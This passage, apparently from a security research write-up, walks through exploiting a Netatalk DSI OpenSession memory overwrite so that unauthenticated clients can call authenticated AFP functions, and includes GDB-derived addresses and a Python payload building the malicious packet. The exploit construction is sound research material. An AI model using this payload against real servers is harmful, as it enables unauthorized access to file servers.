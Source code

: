 ```
AFPCmd postauth_switch[] = {  
    NULL, afp_bytelock, afp_closevol, afp_closedir,  
    afp_closefork, afp_copyfile, afp_createdir, afp_createfile,   
    afp_delete, afp_enumerate, afp_flush, afp_flushfork,  
    afp_null, afp_null, afp_getforkparams, afp_getsrvrinfo,   
    afp_getsrvrparms, afp_getvolparams, afp_login, afp_logincont,  
    afp_logout, afp_mapid, afp_mapname, afp_moveandrename,   
    afp_openvol, afp_opendir, afp_openfork, afp_read,  
    afp_rename, afp_setdirparams, afp_setfilparams,   
    afp_setforkparams,
```

Here we can see there are a lot more commands available to an authenticated user, but more importantly, we have a mostly empty array of functions which the server can execute on behalf of an unauthenticated client. This makes **preauth_switch** an ideal candidate to overwrite the **commands** variable, and using a follow up AFP command request over the same connection, we can theoretically overwrite one of the NULL entries in **preauth_switch** with an entry from the **postauth_switch** table allowing for an unauthenticated client to execute a function that should require authentication.

To prove this we are going to need the memory address of **preauth_switch** as well as the address of one of the **postauth_switch** functions. I chose to use **afp_getsrvrinfo** as it is the same function targeted in the initial Tenable writeup and it requires no additional parameters making the payload easier to craft. To get the required memory addresses, we can use GDB (please note that this method only works if you have access to the system Netatalk is running on and if ASLR is disabled, although it is possible to get around those obstacles as well).

![](/images/1_EU4ghspE6yxRHhoJgYeKkA.png)

![](/images/1_QJyaWxA3ssvddcHYxHvrrA.png)

From the debugger outputs above, we can see that **preauth_switch** is located at 0x00005555555a9a20 and **afp_getsrvrinfo** is located at 0x00005555555863a0.

The final piece we need to create our exploit is the structure of the AFP command request, which we can refer back to the AFP reference to find. The reference defines this request simply with 2 bytes. The first byte contains the command code, which represents the indexed position of the AFP command’s function within the active jump table (either **preauth_switch** or **postauth_switch**) and the second byte is simply a pad byte which can be set to 0. It is also important to note that since we are overwriting the **commands** pointer with the address of **preauth_switch,** we need to add some padding after our AFP command data in order to be properly aligned with one of the indexed values in the array. Specifically, the padding should be 6 bytes, as preauth_switch is an array of 8 byte values, and the AFP command data only consumes 2 bytes. After writing the AFP command data and the padding to **preauth_switch**, we will be aligned at index 0x01 of the array which is where we will write the address of **afp_getsrvrinfo.**

Putting this together, our new DSI OpenSession request should look as follows:

```
dsi_payload = "\x01" # Client Request  
dsi_payload += "\x18" # 20 bytes in length  
dsi_payload += "\x00\x00\x40\x00" # Client Quantum  
dsi_payload += "\x00\x00\x00\x00" # overwrite datasize  
dsi_payload += "\xef\xbe\xad\xde" # overwrite the server quantum  
dsi_payload += "\xbe\xba\xfe\xca" # overwrite serverID and clientID  
dsi_payload += "\x20\x9a\x5a\x55\x55\x55\x00\x00" # overwrite commands with preauth_switch addressdsi_packet = "\x00" # Request flag  
dsi_packet += "\x04" # DSIOpenSession command  
dsi_packet += "\x41\x41" # Request ID  
dsi_packet += "\x00\x00\x00\x00" # Error code, not set by client  
dsi_packet += struct.pack(">I", len(dsi_payload)) # Length of payload  
dsi_packet += "\x00\x00\x00\x00" # Reserved for future use
```
